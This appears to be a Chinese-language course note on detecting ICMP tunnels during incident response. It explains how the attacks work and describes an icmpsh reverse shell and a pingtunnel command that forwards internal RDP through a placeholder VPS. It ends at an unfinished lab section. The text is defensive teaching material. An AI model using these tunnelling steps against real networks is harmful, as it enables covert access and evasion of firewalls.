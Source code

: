




==00:59:29==

### 隧道技术

常见代理隧道技术是ICMP隧道、DNS隧道、SSH隧道(内网隧道技术的知识点)

场景说明：内网或不出网的情况下，协议隧道技术很常见，如何定位到进程及攻击者？

1、明确隧道最常使用的协议技术

2、明确Windows,Linux中分析技术

3、对于有需要自定义排查协议可学后续开发脚本实现

ICMP比较有挑战性和代表性，我们下面进行演示，至于DNS或者其他协议的隧道或者恶意程序其实都是一样的处置方法

#### Linux-ICMP

本实验是做一个Linux到Linux的隧道通信，然后在目标主机上定位分析通信的特征

##### ICMP隧道攻击原理

ICMP隧道攻击是一种利用ICMP（Internet Control Message Protocol）协议进行隐蔽通信的网络攻击技术。由于ICMP报文（如常见的ping请求和回复）通常被防火墙允许通过，攻击者便利用这一特性，将恶意数据隐藏在这些看似正常的网络管理数据包中，从而绕过安全设备的检测，建立隐蔽通道。

对于防火墙和入侵检测系统来说，这看起来只是一系列普通的ping包交换，从而实现了通信的隐蔽性

攻击者会在目标内网中植入一个客户端程序，并在其控制的外部服务器上运行服务端程序。当需要通信时：

- **攻击者（服务端）** 将指令或数据隐藏在一个ICMP Echo Request（ping请求）包的数据字段中，发送给内网的客户端。
- **客户端** 收到后，解析出隐藏的指令并在本地执行，然后将结果隐藏在一个ICMP Echo Reply（ping回复）包的数据字段中，发送回服务端。

##### ICMP隧道攻击案例

###### 使用icmpsh直接反弹Shell场景

攻击者已在内网一台Windows主机上获得了执行权限，但该主机除ICMP外其他协议均无法出网。过程：攻击者先在自己的公网服务器上运行icmpsh服务端，并暂时关闭系统本身的ping回复功能以避免干扰。随后在目标主机上运行icmpsh客户端，指向攻击者服务器。客户端会通过ICMP请求包持续“询问”服务器是否有指令。服务器通过回复包下达指令（如`whoami`），客户端执行后再将结果通过请求包送回。这样，攻击者就获得了一个交互式的Shell。

###### 使用pingtunnel实现端口转发场景

内网有一台开启了远程桌面（RDP，端口3389）的服务器，但从外网无法直接访问。过程：

- 攻击者在公网VPS上运行`pingtunnel -type server`。

- 在内网的跳板机上运行`pingtunnel -type client -l :4444 -s <VPS_IP> -t <内网RDP服务器IP>:3389 -tcp 1`。

  此命令意为：在客户端本地开启4444端口监听，将所有到达此端口的TCP流量，通过ICMP隧道发送给VPS上的服务端，再由服务端最终转发到内网RDP服务器的3389端口。

  攻击者只需在自己的电脑上连接`localhost:4444`，就能穿透防线，访问到内网的远程桌面。

##### 课程实验

实验：https://github.com/esrrhs/pingtunnel

攻击者：
